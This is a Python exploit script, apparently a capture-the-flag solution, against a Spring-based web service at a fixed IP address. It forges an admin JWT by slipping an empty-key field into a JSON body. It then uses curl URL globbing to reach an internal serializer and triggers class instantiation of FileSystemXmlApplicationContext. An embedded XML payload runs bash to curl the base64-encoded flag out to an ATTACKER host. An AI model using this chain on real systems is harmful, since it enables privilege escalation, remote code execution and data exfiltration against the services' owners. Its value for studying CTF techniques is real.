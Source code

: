 ```py

"""
    1) Set JWT to admin=true.   
        - https://blog.kuron3k0.vip/2021/04/10/vulns-of-misunderstanding-annotation/
    2) Curl globbing
        - https://everything.curl.dev/cmdline/globbing.html
    3) Class Instantiation
        - https://samuzora.com/posts/rwctf-2024/
"""

import httpx
from urllib.parse import quote


URL = "http://172.206.89.197:8090/"
#URL = "http://localhost:8090/"
ATTACKER = "https://ATTACKER/pov.xml"

""" pov.xml 
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean class="#{T(java.lang.Runtime).getRuntime().exec(
        new String[] {
        '/bin/bash', '-c', 'curl https://ATTACKER/?flag=$(/readflag|base64)'
        }
        )}"></bean>
</beans>
"""

# Set JWT admin true cookie
# Ref: https://blog.kuron3k0.vip/2021/04/10/vulns-of-misunderstanding-annotation/
def get_admin_jwt(client):
    payload = {
        "firstName": "marce",
        "lastName": "loves",
        "favouriteCategory": "p4rra",
        "": {"admin": True}
    }
    r = client.post(URL, json=payload)
    print(f"[*] jwt: {r.cookies['jwt']}\n")
    assert "" != r.cookies['jwt']


# /admin update
def deserialization(client):
    build = '[{"type":"object","name":"TypeReference","value":"org.springframework.context.support.FileSystemXmlApplicationContext|' + ATTACKER + '"}]'
    payload = {'url': "http://{127.0.0.1:8090,@nicknameservice:5000/}/ExperimentalSerializer?serialized="+quote(build)}
    r = client.post(URL+'admin/update', data=payload)
    print(r.text)


client = httpx.Client()
get_admin_jwt(client)
deserialization(client)

```

